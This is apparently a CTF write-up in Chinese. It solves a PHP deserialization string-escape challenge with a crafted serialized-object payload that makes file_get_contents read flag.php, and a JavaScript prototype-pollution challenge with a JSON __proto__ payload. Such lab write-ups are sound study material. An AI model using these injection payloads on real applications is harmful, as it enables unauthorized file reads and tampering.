




## 4.4

[逃逸 - Bugku CTF平台](https://ctf.bugku.com/challenges/detail/id/547.html)

1. 根据源代码分析出字符串逃逸漏洞。
2. 设计出对应的payload。
3. 传参得到flag。

给出了源代码：

```php
<?php

show_source("index.php");

function filter_nohack($data) {
    return str_replace('flag', '', $data);

}

class A{
    public $username;
    public $password;
    function __construct($a, $b){
        $this->username = $a;
        $this->password = $b;
    }
}
class B{
    public $b = 'gqy';
    function __destruct(){
        $c = 'a'.$this->b;
        echo $c;
    }
}
class C{
    public $c;
    function __toString(){
        //flag.php
        echo file_get_contents($this->c);
       return 'nice';
    }

}

$a = new A($_GET['a'],$_GET['b']);

$b = unserialize(filter_nohack(serialize($a)));
```

> [!IMPORTANT]
>
> [__toString()](https://www.php.net/manual/zh/language.oop5.magic.php#object.tostring) 方法用于一个类被当成字符串时应怎样回应。例如 `echo $obj;` 应该显示些什么。
>
> __destruct()析构函数，当对象被销毁时，执行该函数。
>
> __construct()构造函数，当对象被创建时，执行该函数。

结合题目名与源代码不难看出这是一道字符串逃逸的问题；让我们从后往前推；最终的结果需要用C类里的file_get_contents读取变量c的名字，即flag.php；而要调用file_get_contents又需要调用C类中的__toString()；那我们就要去找哪里有类被当成了字符串，可以看到B类中的`__destruct()`中就将变量b当作了字符串；而我们能传入的只有A类的一个对象的username和password；但是这个函数filter_nohack给了我们操作的空间。

> [!IMPORTANT]
>
> 字符串逃逸：
>
> ```php
> <?php
> function filter_nohack($data) {
>     return str_replace('flag', '', $data);
> }
> 
> class A{
>     public $username;
>     public $password;
>     function __construct($a, $b){
>         $this->username = $a;
>         $this->password = $b;
>     }
> }
> 
> $a = new A('helflagflagflaglo','worflagld');
> $b = filter_nohack(serialize($a));
> var_dump($b);
> ?>
>     
> #输出：string(67) "O:1:"A":2:{s:8:"username";s:17:"hello";s:8:"password";s:9:"world";}"
> #反序列化结果：Warning: unserialize(): Error at offset 49 of 67 bytes in D:\code\ctf\5.php on line 16
> # bool(false)
> ```
>
> 可以看到序列化后的字符串，经过filter_nohack过滤后，username中的17个字符helflagflagflaglo只剩下5个字符hello，password中的字符也只剩下5个；这样的结果如果直接反序列化就会报错；我们可以利用这个减少的字符来填入我们需要的字符；

先在本地创建对象得出需要替换的内容；

```php
<?php

function filter_nohack($data) {
    return str_replace('flag', '', $data);

}

class A{
    public $username;
    public $password;
    function __construct($a, $b){
        $this->username = $a;
        $this->password = $b;
    }
}
class B{
    public $b = 'gqy';
    function __destruct(){
        $c = 'a'.$this->b;
        echo $c;
    }
}
class C{
    public $c;
    function __toString(){
        //flag.php
        echo file_get_contents($this->c);
       return 'nice';
    }
}

$a_new  = new A('flag',new B());
$a_new -> password -> b = new C();
$a_new -> password -> b -> c = 'flag.php';

var_dump(serialize($a_new));
#输出：string(108) "O:1:"A":2:{s:8:"username";s:4:"flag";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}"
#其中的'";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}'就是最终要被放在A类对象中password变量里的内容，注意这里的flag.php中的flag也会被过滤，所以要用flflagag双写得到过滤后的flag；
```

```php
<?php

function filter_nohack($data) {
    return str_replace('flag', '', $data);

}

class A{
    public $username;
    public $password;
    function __construct($a, $b){
        $this->username = $a;
        $this->password = $b;
    }
}
class B{
    public $b = 'gqy';
    function __destruct(){
        $c = 'a'.$this->b;
        echo $c;
    }
}
class C{
    public $c;
    function __toString(){
        //flag.php
        echo file_get_contents($this->c);
       return 'nice';
    }
}

$a_new  = new A('flag',new B());
$a_new -> password -> b = new C();
$a_new -> password -> b -> c = 'flag.php';

var_dump(serialize($a_new));

$_GET['a']  = 'flagflagflagflagflagflagflag';
$_GET['b'] = 'XXXXX";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flflagag.php";}}}';

$a = new A($_GET['a'],$_GET['b']);


$b = filter_nohack(serialize($a));
var_dump($b);
var_dump(unserialize($b));

?>
```

```bash
#输出：
string(108) "O:1:"A":2:{s:8:"username";s:4:"flag";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}"
string(136) "O:1:"A":2:{s:8:"username";s:28:"";s:8:"password";s:82:"XXXXX";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}";}"
object(A)#5 (2) {
  ["username"]=>
  string(28) "";s:8:"password";s:82:"XXXXX"
  ["password"]=>
  object(B)#6 (1) {
    ["b"]=>
    object(C)#7 (1) {
      ["c"]=>
      string(8) "flag.php"
    }
  }
}
可以看到我们传入的a的7个flag，28个字符被替换为了`";s:8:"password";s:82:"XXXXX`；然后password被赋值为B类对象，b又被赋值为C类对象，最后c被赋值为flag.php，file_get_contents(flag.php)得到flag：
```


#### fake galgame

进入页面：

前端源代码中存在着提示：

全部置为0创建角色，返回：

> [!TIP]
>
> [深入理解 JavaScript Prototype 污染攻击 | 离别歌](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html)

根据前端源代码的提示和merge的提示，可以想到先将角色的三项属性置为0；这个对象就找不到三项属性，而是在其的`__proto__`中寻找对应的属性，如果仍然找不到，就继续向`__proto__`的`__proto__`中寻找对应的属性，直到找到null结束。然后这里有一个merge函数，可能存在着原型链污染。

通过burpsuite的抓包，可以看到发送的是json数据：

```json

{"attributes":{"health":0,"attack":0,"armor":0,"__proto__":{"health":10000000,"attack":10000000,"armor":10000000}}}
```

替换发送得到flag：
